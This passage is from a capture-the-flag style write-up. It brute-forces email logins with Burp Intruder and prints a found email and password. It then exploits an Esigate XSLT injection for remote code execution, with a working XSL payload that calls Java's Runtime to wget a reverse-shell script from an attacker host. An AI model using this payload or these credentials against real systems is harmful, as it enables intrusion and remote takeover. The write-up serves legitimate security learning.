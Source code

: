 ```ruby
jane@wink.co.uk
john@wink.co.uk
LazyCoop@wink.co.uk
ScoobyDoo@wink.co.uk
PenguinCrop@wink.co.uk
QConsulting@wink.co.uk

```
> i will use BurpSuite Intruder for bruteforcing the email address.

> ![](https://i.ibb.co/5hdg4BG/emailfound.png)

* cool we found the email

> Email:**elisa@wink.co.uk**, Password:**Quick4cc3$$**

> ![](https://i.ibb.co/Rz834Y4/done.png)

> This is a Ticketing System which is powered by Esigate and the Esigate vulnerable to XSLT injection which leading to RCE.

> ![](https://i.ibb.co/GkKZTHD/esi.png)

> accordind to this article [ESI Injection Part 2](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/), we need xml,xsl files, so let me explain what i did in this point.

* note: We cant use two or more ticket containg the same filename so everytime any failure happen you need to rename your .xml and .xsl file.

> i make three xml files and three xsl files, **the important is the xsl file, i named the file upload.xsl,chmod.xsl,execute.xsl**, and also for xml files.

> the first file which name is upload.xsl this will upload my bash script which contain a reverse shell.

> the seconed file which name is chmod.xsl will give the bash script executable right.

> the third file which name is execute.xsl will run my file. here is the content of the files.

### []() upload.xsl

```ruby
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.16.44:8000/user.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```
